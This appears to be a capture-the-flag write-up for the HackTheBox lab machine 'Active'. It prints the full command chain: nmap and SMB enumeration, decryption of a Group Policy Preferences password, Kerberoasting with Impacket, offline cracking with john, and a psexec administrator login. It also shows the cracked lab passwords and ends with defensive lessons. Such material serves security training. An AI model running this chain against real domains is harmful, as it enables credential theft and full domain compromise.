



# Active Writeup w/o Metasploit


## Reconnaissance <a id="6b46"></a>

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```text
nmap -sC -sV -O -oA initial 10.10.10.100
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-O**: detect OS
* **-oA**: output all formats and store in file _initial_

We get back the following result showing that 17 ports are open:

* **Port 53:** running DNS 6.1.7601
* **Port 88:** running Kerberos
* **Ports 135, 593, 49152, 49153, 49154, 49155, 49157, 49158:** running msrpc
* **Ports 139 & 445:** running SMB
* **Port 389 & 3268:** running Active Directory LDAP
* **Port 464:** running kpasswd5. This port is used for changing/setting passwords against Active Directory
* **Ports 636 & 3269:** As indicated on the [nmap FAQ page](https://secwiki.org/w/FAQ_tcpwrapped), this means that the port is protected by tcpwrapper, which is a host-based network access control program



Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports.

```text
nmap -sC -sV -O -p- -oA full 10.10.10.100
```

We get back the following result. We have 6 other ports that are open.

* **Ports 5722:** running Microsoft Distributed File System \(DFS\) Replication service
* **Port 9389:** running .NET Message Framing protocol
* **Port 47001:** running Microsoft HTTPAPI httpd 2.0
* **Ports 49169, 49171, 49182:** running services that weren’t identified by nmap. We’ll poke at these ports more if the other ports don’t pan out.


Similarly, we run an nmap scan with the **-sU** flag enabled to run a UDP scan.

```text
nmap -sU -O -p- -oA udp 10.10.10.100
```

I managed to root the box and write this blog, while this UDP scan still did not terminate. So I don’t have UDP scan results for this machine.

## Enumeration <a id="64a0"></a>

The nmap scan discloses the domain name of the machine to be active.htb. So we’ll edit the /etc/hosts file to map the machine’s IP address to the active.htb domain name.

```text
10.10.10.100 active.htb
```

The first thing I’m going to try to enumerate is DNS. Let’s use nslookup to learn more information about this domain.


It doesn’t give us any information. Next, let’s attempt a zone transfer.

```text
host -l active.htb 10.10.10.100
```

No luck there as well. I also tried dnsrecon and didn’t get anything useful.

So we’ll move on to enumerating SMB on ports 139 and 445. We’ll start with viewing the SMB shares.

```text
smbmap -H active.htb
```

* **-H**: IP of host

We get back the following result.


The Replication share has READ ONLY permission on it. Let’s try to login anonymously to view the files of the Replication share.

```text
smbclient //active.htb/Replication -N
```

* **-N**: suppresses the password since we’re logging in anonymously

We’re in!


After looking through all the files on this share, I found a Groups.xml file in the following directory.

```text
cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
```


A quick google search tells us that Groups.xml file is a Group Policy Preference \(GPP\) file. GPP was introduced with the release of Windows Server 2008 and it allowed for the configuration of domain-joined computers. A dangerous feature of GPP was the ability to save passwords and usernames in the preference files. While the passwords were encrypted with AES, the key was made [publicly available](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN).

Therefore, if you managed to compromise any domain account, you can simply grab the groups.xml file and decrypt the passwords. For more information about this vulnerability, refer to this [site](https://www.mindpointgroup.com/blog/pen-test/privilege-escalation-via-group-policy-preferences-gpp/).

Now that we know how important this file is, let’s download it to our attack machine.

```text
get Groups.xml
```

View the contents of the file.

```text
cat Groups.xml
```

We have a username and encrypted password!


This will allow us to gain an initial foothold on the system.

## Gain an Initial Foothold <a id="4e59"></a>

As mentioned above, the password is encrypted with AES, which is a strong encryption algorithm. However, since the key is posted online, we can easily decrypt the encrypted password.

There’s a simple ruby program known as gpp-decrypt that uses the publicly disclosed key to decrypt any given GPP encrypted string. This program is included with the default installation of Kali.

Let’s use it to decrypt the password we found.

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

We get back the plaintext password.

```text
GPPstillStandingStrong2k18
```

From the Groups.xml file, we know that the username is SVG\_TGS. This probably is not the admin user, but regardless let’s try to access the ADMIN$ share with the username/password we found.

```text
smbclient -W active.htb -U SVC_TGS //active.htb/ADMIN$
```

* **-W**: domain
* **-U**: username

Nope, that doesn’t work.


Let’s try the USERS share.

```text
smbclient -W active.htb -U SVC_TGS //active.htb/USERS
```

We’re in!



Navigate to the directory that contains the user.txt flag.

```text
cd SVC_TGS\Desktop\
```

Download the user.txt file to our attack machine.

```text
get user.txt
```

View the content of the flag.


We compromised a low privileged user. Now we need to escalate privileges.

## Privilege Escalation <a id="e04f"></a>

Since we’re working with Active Directory and using Kerberos as an authentication protocol, let’s try a technique known as Kerberoasting. To understand how this attack works, you need to understand how the Kerberos authentication protocol works.

At a high level overview, the [following figure](https://docs.typo3.org/typo3cms/extensions/ig_ldap_sso_auth/stable/SSO/Kerberos.html) describes how the protocol works.



If you compromise a user that has a valid kerberos ticket-granting ticket \(TGT\), then you can request one or more ticket-granting service \(TGS\) service tickets for any Service Principal Name \(SPN\) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

To do that, download [Impacket](https://github.com/SecureAuthCorp/impacket). This includes a collection of Python classes for working with network protocols.

```text
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
python setup.py install #install software
```

They have a script in the /examples folder called GetUserSPNs.py that is used to find SPNs that are associated with a given user account. It will output a set of valid TGSs it requested for those SPNs.


Run the script using the SVC\_TGS credentials we found.

```text
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

* **target:** domain/username:password
* **-dc-ip**: IP address of the domain controller
* **-request**: Requests TGS for users and outputs them in JtR/hashcat format

We get back the following output.


We were able to request a TGS from an Administrator SPN. If we can crack the TGS, we’ll be able to escalate privileges!

**Note**: If you get a “Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

Now that we have a valid TGS that is already in John the Ripper format, let’s try to crack it.

```text
john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt
```

We get back the password!

```text
Ticketmaster1968
```


To login as the administrator, we’ll use another Impacket script known as psexec.py. As shown in the help menu, you can run the script using the following command.

```text
# psexec.py domain/username:password@targetName
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```


Navigate to the directory that contains the root.txt flag.

```text
cd C:\Users\Administrator\Desktop
```

Download the root.txt file to our attack machine.

```text
get root.txt
```

View the content of the flag.


## Lessons Learned <a id="0523"></a>

I’ll start off by saying that since I have little to no Active Directory and Kerberos experience, Active was one of the toughest machines I worked on! In my opinion, this definitely should not be categorized as an “Easy” machine.

That being said, to gain an initial foothold on the system we first anonymously logged into the Replication share and found a GPP file that contained encrypted credentials. Since the AES key used to encrypt the credentials is publicly available, we were able to get the plaintext password and login as a low-privileged user.

Since this low-privileged user was connected to the domain and had a valid TGT, we used a technique called kerberoasting to escalate privileges. This involved asking the domain controller to give us valid TGS tickets for all the SPNs that are associated with our user account. From there, we got an administrator TGS service ticket that we ran a brute force attack on to obtain the administrator’s credentials.

Therefore, I counted three vulnerabilities that allowed us to get admin level access on this machine.

1. Enabling anonymous login to an SMB share that contained sensitive information. This could have been avoided by disabling anonymous / guest access on SMB shares.
2. The use of vulnerable GPP. In 2014, Microsoft released a security bulletin for [MS14–025](https://support.microsoft.com/en-us/help/2962486/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevati) mentioning that Group Policy Preferences will no longer allow user names and passwords to be saved. However, if you’re using previous versions, this functionality can still be used. Similarly, you might have updated your system but accidentally left sensitive preference files that contain credentials.
3. The use of weak credentials for the administrator account. Even if we did get a valid TGS ticket, we would not have been able to escalate privileges if the administrator had used a long random password that would have taken us an unrealistic amount of computing power and time to crack.

